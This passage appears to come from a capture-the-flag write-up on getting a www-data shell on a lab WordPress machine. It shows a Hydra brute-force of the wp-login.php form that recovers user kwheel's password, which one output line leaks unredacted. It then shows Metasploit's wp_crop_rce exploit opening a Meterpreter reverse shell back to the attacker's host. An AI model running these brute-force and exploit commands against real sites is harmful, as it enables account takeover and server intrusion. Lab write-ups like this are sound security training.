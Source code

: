 ## Shell as www-data

I researched the WordPress version and found a `Crop-image Shell Upload` exploit in <a href="https://www.exploit-db.com/exploits/46662">Exploit-DB</a>. I loaded the module in Metasploit: 
```bash
msf6 > search wordpress crop

Matching Modules
================

   #  Name                            Disclosure Date  Rank       Check  Description
   -  ----                            ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce  2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
msf6 > use exploit/multi/http/wp_crop_rce
```

Since this was an authenticated RCE, I first needed valid credentials. Given that Karen Wheeler had published a post, it was likely she had write permissions. I initiated a brute-force attack using Hydra:
```bash
kali@kali:~/ctf/blog$ hydra -l 'kwheel' -P /usr/share/wordlists/rockyou.txt 10.10.194.182 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered"
  [...]
  [80][http-post-form] host: 10.10.194.182   login: kwheel   password: c[removed]1
  [...]
```

Great! With valid credentials, I set the required options in Metasploit and executed the exploit:
```bash
msf6 exploit(multi/http/wp_crop_rce) > set PASSWORD c[removed]1
PASSWORD => cutepie1
msf6 exploit(multi/http/wp_crop_rce) > set USERNAME kwheel
USERNAME => kwheel
msf6 exploit(multi/http/wp_crop_rce) > set RHOSTS 10.10.20.207
RHOSTS => 10.10.20.207
msf6 exploit(multi/http/wp_crop_rce) > set LHOST tun0
LHOST => [attackerip]
msf6 exploit(multi/http/wp_crop_rce) > exploit

[*] Started reverse TCP handler on [attackerip]:4444 
[*] Authenticating with WordPress using kwheel:c[removed]1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39927 bytes) to 10.10.20.207
[*] Meterpreter session 1 opened ([attackerip]:4444 -> 10.10.20.207:37980) at 2025-03-22 07:25:22 -0400
[*] Attempting to clean up files...

meterpreter >
```
